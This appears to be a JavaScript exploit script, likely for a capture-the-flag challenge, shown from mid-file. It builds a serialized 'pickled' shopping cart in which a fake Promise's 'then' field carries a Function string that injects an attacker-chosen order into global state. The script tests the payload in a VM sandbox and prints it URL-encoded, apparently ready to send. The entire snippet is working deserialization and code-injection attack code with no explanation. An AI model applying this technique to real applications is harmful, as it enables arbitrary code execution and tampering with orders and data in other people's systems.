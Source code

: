 ``` js
                'key': 'shoppingCartId',
                'type': 'String',
                'value': 800600798186
            }
        ]
    },
    {
        'key': 'driver',
        'type': 'pickledDriver',
        'value': [
            {
                'key': 'username',
                'type': 'String',
                'value': 'johnnywalker'
            },
            {
                'key': 'orders',
                'type': 'pickledArray',
                'value': []
            }
        ]
    },
    {
        'key': 'orderId',
        'type': 'String',
        'value': 'PEW'
    }
]).replaceAll('"', '\\"')
  
  let cart = JSON.stringify(
    [{"key":"0","type":"pickledShoppingCart","value":[{"key":"items","type":"pickledObject","value":[{"key":"Tomato","type":"pickledItem","value":[{"key":"price","type":"Number","value":10},{"key":"quantity","type":"String","value":"1"}]},{"key":"Pickle","type":"pickledItem","value":[{"key":"price","type":"Number","value":8},{"key":"quantity","type":"String","value":"0"}]},{"key":"Pineapple","type":"pickledItem","value":[{"key":"price","type":"Number","value":44},{"key":"quantity","type":"String","value":"0"}]}]},{"key":"address","type":"pickledAddress","value":[{"key":"street","type":"String","value":"1"},{"key":"number","type":"Number","value":0},{"key":"zip","type":"Number","value":0}]},{"key":"shoppingCartId","type":"pickledPromise","value":[{"key":"then","type":"Function","value":"globalThis.orders.push(JSON.parse('"+payload+"'));arguments[0]();"}]}]}]
  );


  let vm = new VM({sandbox: {orders, cart, console}});
  console.log('before')
  try {
    let result = await vm.run(script);
  } catch(err){
    console.log('err', err)
  }
  console.log('after')
  console.log('orders')
  console.log(orders)

  console.log(encodeURIComponent(cart))

  //console.log(orders[0][0].value[0])
}
main()
```
